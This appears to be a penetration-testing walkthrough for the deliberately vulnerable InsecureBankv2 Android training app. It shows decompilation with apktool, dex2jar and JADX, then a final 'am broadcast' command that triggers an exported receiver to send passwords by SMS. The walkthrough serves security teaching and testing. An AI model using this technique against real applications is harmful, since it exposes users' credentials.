![](media/6bc9473b4b8bf246749f1ab20989c482.png)

**BOSTON \| SEATTLE**

**187 Ballardvale St. Suite A195 ●Wilmington, MA 01887● Ph: +1.978.694.1008**

[**getsecure@securityinnovation.com**](mailto:getsecure@securityinnovation.com)**●** [**www.securityinnovation.com**](http://www.securityinnovation.com)

![](media/6bc9473b4b8bf246749f1ab20989c482.png)

**BOSTON \| SEATTLE**

**187 Ballardvale St. Suite A195 ●Wilmington, MA 01887● Ph: +1.978.694.1008**

[**getsecure@securityinnovation.com**](mailto:getsecure@securityinnovation.com)**●** [**www.securityinnovation.com**](http://www.securityinnovation.com)

| **Document name:** | Exploiting Android Broadcast Receivers |
|--------------------|----------------------------------------|
| **Author(s):**     | Dinesh Shetty                          |

![SI-header-blue-gradient.jpg](media/2b36546d36cdcc725fb20382ec3c359e.jpeg)

# Contact Information

### Technical Contact

Dinesh Shetty

Senior Security Engineer

Email: [dinezh.shetty@gmail.com](mailto:dinezh.shetty@gmail.com)

# Test Configuration

The following is required to verify this issue:

-   Download the latest version of the Android-InsecureBankv2 apk from <https://github.com/dineshshetty/Android-InsecureBankv2>
-   Download Android SDK from <http://developer.android.com/sdk/index.html>
-   Download the latest version of apktool from <http://ibotpeaches.github.io/Apktool/>. The installation guide can be found at <http://ibotpeaches.github.io/Apktool/install/>
-   Download the latest version of JADX decompiler from <https://github.com/skylot/jadx>
-   Download latest version of dex2jar from <https://bitbucket.org/pxb1988/dex2jar/downloads>

# Test Steps

1.  Copy the InsecureBankv2.apk file to the “platform-tools” folder in the Android SDK and then use the below command to push the downloaded Android-InsecureBankv2 application to the emulator.

    ./adb install InsecureBankv2.apk

2.  Launch the installed InsecureBankv2 application on the Emulator. Following screenshot shows the default screen available to a normal user after login.

    ![](media/99c67ae5c7f169c7b18670200b8c5ac6.png)

3.  Copy the InsecureBankv2.apk into the “apktool” folder and enter the below command to decompile the application:

    ./apktool d InsecureBankv2.apk

    ![](media/8a53ffed80e04123916e4143b52099eb.png)

4.  Open the decrypted *AndroidManifest.xml* file. The following screenshot shows the Broadcast receiver declared in the application.

    ![](media/6f7ac9b9c63e564755b2c00b2c56276f.png)

5.  Unzip the contents of the originally downloaded InsecureBankv2.apk file using the below command:

    unzip InsecureBankv2.apk

    ![](media/202c0579593db17ebbb3d0cd685719ed.png)

6.  Copy the classes.dex file to the dex2jar folder. Make the d2j-dex2jar.sh and d2j_invoke.sh files executable by running the below commands.

    chmod +x d2j-dex2jar.sh

    chmod +x d2j_invoke.sh

1.  Use the below command to convert the dex file into a jar file:

    sh d2j-dex2jar.sh classes.dex

    ![](media/435349b09efe3cb7ab1c11c4261a68cd.png)

2.  Open the generated classes-dex2jar.jar file in JADX-GUI decompiler using the below command:

    ./jadx-gui \<path to classes-dex2jar.jar\>

    ![](media/b0d2bf24860161327f2b40cf13601145.png)

3.  The following screenshots shows the parameters that are passed to the Broadcast Receiver declared in the application that was shown previously.

    ![](media/b1748569578b795297e43ab6eecf60fc.png)

    ![](media/f25f7c7c0446de997f8a7fe4ccfe5a63.png)

4.  With the Android Emulator running, copy the InsecureBankv2.apk file to the “platform-tools” folder in the Android SDK and then use the below command to push the downloaded Android-InsecureBankv2 application to the emulator.

    ./adb install InsecureBankv2.apk

5.  Launch the installed InsecureBankv2 application in the Emulator.
6.  Navigate back to the “platform-tools” folder and enter the below mentioned command:

    ./adb shell

7.  Enter the following command in the shell:

    am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 –es newpass Dinesh@123!

8.  Back on the emulator, navigate to the “Messages”. The above entered command automatically makes a call to the mentioned Broadcast Receiver and an SMS text with the passwords is sent.

    ![](media/c0e6a9f95cf29d16ef03a0a20014f7de.png)

